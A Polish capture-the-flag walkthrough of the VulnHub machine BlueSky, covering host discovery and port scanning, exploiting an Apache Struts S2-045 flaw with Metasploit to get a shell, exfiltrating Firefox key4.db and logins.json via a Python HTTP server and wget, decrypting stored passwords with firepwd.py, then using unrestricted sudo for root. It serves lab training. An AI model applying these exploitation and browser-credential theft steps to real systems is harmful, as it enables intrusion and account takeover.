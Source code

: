 **CTF - BlueSky**

**Autor**: adi7312

**Poziom trudności**: łatwy

**Link do maszynki**: [BlueSky](https://www.vulnhub.com/entry/bluesky-1,623/)


## **Skanowanie sieci**

W celu poznania adresu IP podatnej maszyny wpisujemy polecenie:

    netdiscover -r 192.168.138.0/24

![](p/1.png)

Adres IP to 192.168.138.137

## **Skanowanie portów, usług i systemu operacyjnego**

W celu przeprowadzenia skanowania wpisujemy poniższe polecenie

    nmap -sV -O -Pn 192.168.138.137


![](p/2.png)


Host ma 2 otwarte porty 22 (ssh) i 8080 (http) i działa na systemie operacyjnym Linux w wersji 3.2-4.9. Będziemy przyglądać się portowi 8080, po wejściu na stronę http://192.168.138.137:8080/ nie zobaczymy nic ciekawego. Po wygooglowaniu wersji Apache Tomcat dowiadujemy się że dana wersja jest dosyć podatna - między innymi na *Remote Code Execution*. Przeprowadziłem dodatkowo skanowanie OpenVasem i dokładny kod podatności związanej z Apache Tomact to S2-045.

## **Faza eksploitacji (metasploit)**

Uruchamiamy *metasploit* i wyszkujemy nasza podatność:

    search S2-045

![](p/3.png)

Wybieramy oczywiście tę jedyną opcję -> używamy polecenia `use 0`. Następnie sprawdzamy `options` i widzimy że musimy podać jeszcze RHOSTS, czyli IP atakowanej maszyny, czyli wpisujemy `set RHOSTS 192.168.138.137`. Uruchamiamy naszego exploita poleceniem `run` lub `exploit`. Otrzymaliśmy sesję *meterpretera*, jednak na wiele on nam sie nie przyda więc wywołujemy powłokę *shell* poleceniem `shell`. Taka opcja też raczej średnio nam odpowiada, więc wywołamy jeszcze *bash'a* robimy to poleceniem:

    /bin/bash -i

## **Faza posteksploitacyjna + eskalacja uprawnień**

Jesteśmy teraz na zaatakowanej maszynie! Po wpisaniu poleceń `ls` możemy zobaczyć plik *user.txt* z pierwszą flagą. Teraz pozostało jedynie zdobyć ostatnią flagę *roota*. Wypisujemy sobie co możemy zrobić przy pomocy *sudo* jednak nic nam nie pokazuje się, więc szukamy dalej. Po wpisaniu polecenia `ls -la` widzimy ciekawy katalog *.mozilla* wchodzimy w niego, po przeszukaniu go znajdujemy pliki *key4.db*, *logins.json*. Dzięki tym plikom będzie mogli poznać hasło naszego użytkownika, pobieramy więc oba pliki na naszą maszyną atakującą, robimy to w następujący sposób: na podatnej maszynie uruchamiamy przy pomocy pythona prosty serwer http, wpisujemy polecenie:

    python3 -m http.server

Na maszynie atakującej wpisujemy polecenia:

    wget http://192.168.138.137:8000/key4.db
    wget http://192.168.138.137:8000/logins.json

Następnie na maszynie atakującej będziemy korzystać z narzędzia *firepwd.py* możemy je pobrać z GitHuba ważne jest aby zainstalować również wymagane moduły - więcej informacji można znaleźć w repozytorium. Teraz w tym samym miejscu gdzie są pliki key4.db, logins.json oraz firepwd.py uruchamiamy polecenie:

    python3 firepwd.py


![](p/4.png)


Teraz łączymy się przez ssh z naszym podatnym hostem oraz podajemy powyższe hasło:

    ssh minhtuan@192.168.138.137

Jesteśmy teraz na podantym hoście, wpisujemy polecenie:

    sudo -l


Okazuje się że każde polecenie możemy wykonać przy pomocy *sudo*, aby zdobyć *roota* wpisujemy po prostu:

    sudo su

Otrzymujemy *roota*, wpisujemy `cd /root; ls` i widzimy że znajduje się tam ostatnia flaga - poraz ostatni wpisujemy polecenie `cat root.txt`.

![](p/5.png)


